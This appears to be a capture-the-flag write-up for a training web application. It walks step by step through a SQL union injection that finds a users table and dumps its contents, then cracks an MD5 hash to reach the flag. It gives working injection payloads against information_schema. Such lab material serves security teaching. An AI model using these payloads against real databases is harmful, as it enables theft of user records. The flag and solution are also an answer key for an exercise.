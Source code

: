 # SQL UNION ATTACK
A union attack attempts to pull information from an additional table that is not the current table that is being queried.

### Step 1
* Input is data search using ID's, try tentative search with integer and then without

### Step 2
* Confirm SQL vulnerabitlity with 1 = 1 or 1

### Step 3
* Attack
1. Confirm number off return columns and data types
  * trial and error: 
  _1 = 1 or 1 ORDER BY 1_...
  _UNION SELECT ‘a’,NULL_...

2. Find tables within current database
  _1 or 1 = 1 UNION SELECT 1,concat(table_name) FROM information_schema.tables WHERE table_schema = database()_

  **users**

3. Find columns within desired table
  _1 and 1=2 union select 1,group_concat(column_name) from information_schema.columns where table_schema = database()_

  **user_id,first_name,last_name,town,country,planet,Commentaire,countersign**

4. Find data
  _1 and 1=2 union select 1,concat(user_id,first_name,last_name,town,country,planet,Commentaire,countersign) from users_

  **5FlagGetThe424242Decrypt this password -> then lower all the char. Sh256 on it and it's good !5ff9d0165b4f92b14994e5c685cdce28**

  _MD5 DECRYPT-> 5ff9d0165b4f92b14994e5c685cdce28 => FortyTwo_

  _toLower -> FortyTwo => fortytwo_

  _Sh256 ENCRYPT -> fortytwo => **10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5**_

https://medium.com/@nyomanpradipta120/sql-injection-union-attack-9c10de1a5635
